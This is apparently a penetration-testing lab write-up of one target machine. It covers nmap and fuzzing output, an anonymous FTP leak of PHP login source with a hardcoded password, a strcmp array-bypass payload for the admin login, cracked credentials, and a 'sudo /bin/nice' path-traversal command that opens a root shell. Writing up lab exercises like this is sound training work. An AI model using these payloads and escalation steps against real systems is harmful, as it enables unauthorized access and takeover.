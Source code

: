 # Export
```md
export IP="192.168.237.101"
export URL="http://192.168.237.101:80/FUZZ"
export LIP="192.168.49.237"
```


<hr>

# Loot

#### **Vulnerabilities**

+  Bypass authentication by abusing insecure `strcmp` in `/admin/index.php` !.
	+ Payload: `username=admin&password[]=%22%22`
	+ PoC: https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016
+ `/admin/dashboard.php?page=log` is vulnerable to code injection.


#### **Credentials**

+ Web: `admin:serdesfsefhijosefjtfgyuhjiosefdfthgyjh`
+ Local user: `webadmin:dragon`

#### **Local Enumeration**

+ Local users? `florianges`, `webadmin` 
+ `/etc/passwd` leaks `webadmin` hash password  → Crack with john
+ Can `webadmin` run sudo? YES `(ALL : ALL) /bin/nice /notes/*`

#### **Privilege Escalation**

```bash
$ sudo /bin/nice /notes/../../bin/sh
```

<hr>

# Nmap

```bash
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
2112/tcp open  ftp     syn-ack ttl 63 ProFTPD
```

<hr>

# Web Application
### Port 80

+ Discovery:

```md
.htpasswd               [Status: 403, Size: 280, Words: 20, Lines: 10]
.hta                    [Status: 403, Size: 280, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 280, Words: 20, Lines: 10]
admin                   [Status: 301, Size: 318, Words: 20, Lines: 10]
index.php               [Status: 200, Size: 245, Words: 31, Lines: 9]
server-status           [Status: 403, Size: 280, Words: 20, Lines: 10]
```

+ `/admin/index.php` brings us to the admin login page.

<hr>

# FTP
### Port 2112

+ Anonymous login allowed.
+ `index.php.bak` leaks web app login source code.

```md
...

<?php

$pass= "potato"; //note Change this password regularly

if($_GET['login']==="1"){
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";
    setcookie('pass', $pass, time() + 365*24*3600);
  }else{
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }
  exit();
}
?>

...
```

+ Insecure `strcmp`.